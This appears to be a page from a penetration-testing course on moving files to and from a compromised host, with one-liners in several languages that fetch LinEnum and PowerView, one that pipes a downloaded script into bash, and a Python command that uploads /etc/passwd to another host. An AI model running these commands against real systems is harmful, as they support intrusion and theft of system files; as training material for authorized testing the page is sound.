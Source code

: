 ## Python
#### Python 2 - Download
```shell-session
$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### Python 3 - Download
```shell-session
$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
## PHP
#### PHP Download with File_get_contents()
```shell-session
$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
#### PHP Download with Fopen()
```shell-session
$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

#### PHP Download a File and Pipe it to Bash
```shell-session
$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Other Languages
#### Ruby - Download a File
```shell-session
$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

#### Perl - Download a File
```shell-session
$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## JavaScript
The following JavaScript code is based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, and we can download a file using it. We'll create a file called `wget.js` and save the following content:
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.
#### Download a File Using JavaScript and cscript.exe

```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## VBScript
[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

The following VBScript example can be used based on [this](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs). We'll create a file called `wget.vbs` and save the following content:
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
#### Download a File Using VBScript and cscript.exe
```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

## Upload Operations using Python3
#### Starting the Python uploadserver Module
```shell-session
$ python3 -m uploadserver 
```
#### Uploading a File Using a Python One-liner
```shell-session
$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})
```

Let's divide this one-liner into multiple lines to understand each piece better.

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```